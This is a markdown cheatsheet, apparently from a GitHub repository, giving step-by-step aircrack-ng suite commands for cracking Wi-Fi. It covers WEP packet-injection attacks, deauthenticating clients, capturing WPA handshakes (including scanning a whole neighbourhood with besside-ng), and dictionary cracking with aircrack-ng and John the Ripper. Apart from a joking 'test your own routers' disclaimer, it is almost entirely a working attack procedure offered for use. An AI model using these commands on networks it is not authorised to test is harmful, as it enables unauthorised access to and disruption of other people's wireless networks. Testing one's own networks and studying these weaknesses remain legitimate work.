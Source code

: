 # Wifi

Here are some cheatsheets about wireless cracking. Easy stuff (just for
testing your own routers :P ).

## Common

First you have to put your interface in monitor mode:

```
airmon-ng # list interfaces
airmon-ng start wlan0 # this will create a mon0 interface which should be able to inject
```

Then, get the info of your router (and adjacents) with `airodump-ng mon0`.

When you get yours (should be WEP for this attack), note down ESSID, BSSID and Channel.

Now focus the sniff in your router:

`airodump-ng -a --ivs -w out --channel <channel> --bssid <bssid> mon0`
This will create an `out.cap` file and it will write only interesting packages (ivs).

## WEP

You can use my tool [wepcrackeator](https://github.com/serginator/unix-tools).
It's really easy to use and will guide you and launch the commands for you.

If you want to know what you are doing, then here are the commands.

First execute what's in [Common](#common) section.

Now we need to associate with the router, execute the following:

```
aireplay-ng -1 6000 -o 1 -q 10 --ignore-negative-one -a <bssid> -h <mymac> mon0
```

Once associated, we are going to use the p0841 injection attack:

```
aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b <bssid> -h <mymac> --ignore-negative-one mon0
```

If you want to deauthenticate a client to get packages, use the following command:

```
aireplay-ng -0 5 -a <bssid> --ignore-negative-one mon0
```

And now you should be getting data for start the cracking process, if not maybe
you need to use other attack like ChopChop or fragmentation, just execute
`aireplay-ng --help` and see the other attacks, mayble a simple ARP injection
could do the trick.

Now launch aircrack-ng and let it cracking while getting data from the router:

```
aircrack-ng -a 1 out.cap
```

It will launch the cracking process when it gets more ivs, so just wait for it.

## WPA

WPA keys can be obtained using dictionaries (or bruteforce) against handshakes.

### Getting handshakes using airodump-ng and aireplay-ng

First execute what's in [Common](#common) section.

Now we need a client to connect to the router. Connect your phone or other device
and you'll see the handshake on top of airodump-ng. If not, try to deauthenticate
a random client using aireplay-ng:

```
aireplay-ng -0 5 -a <bssid> mon0
```

or force a client to deauthenticate with:

```
aireplay-ng -0 5 -a <bssid> -c <client> mon0
```  

Once you get the handshake you can stop airodump-ng and start cracking it.

### Getting handshakes using besside-ng

Like in the previous method, first put your interface in monitor mode:

```
airmon-ng # lists interfaces
airmon-ng start wlan0 # this will create a mon0 interface which should be able to inject
```

Then, to scan the whole neigborhood (not recommended) use the following command:

```
besside-ng -W -vv mon0
```

To scan an specific bssid (your router) use:

```
besside-ng -W -c <channel> -b <bssid> -vv <interface>
```

Both commands will create a file wpa.cap where you have executed the command.
This file will contain only handshakes, so you can crack it once you get it.

### Cracking the handshake

Just use `aircrack-ng` for the task:

```
aircrack-ng -w <dict-file> <cap-file> # where cap-file is out.cap in first example or wpa.cap in the second
```

If there are several handshakes of several routers, it will ask which one. You
can force it at the beginning adding `-b <bssid>` in the aircrack-ng command.

If you need to be able to pause aircrack-ng and resume it later you'll need to
make use of `John the Ripper` tool.

You should launch the cracking with this command:

```
john --session=wpa --stdout --wordlist=<dict-file> | aircrack-ng -w - -b <bssid> wpa.cap
```

To pause it just hit Ctrl+c once.

To restore it, use the following command:

```
john --restore=wpa | aircrack-ng -w - -b <bssid> wpa.cap
```

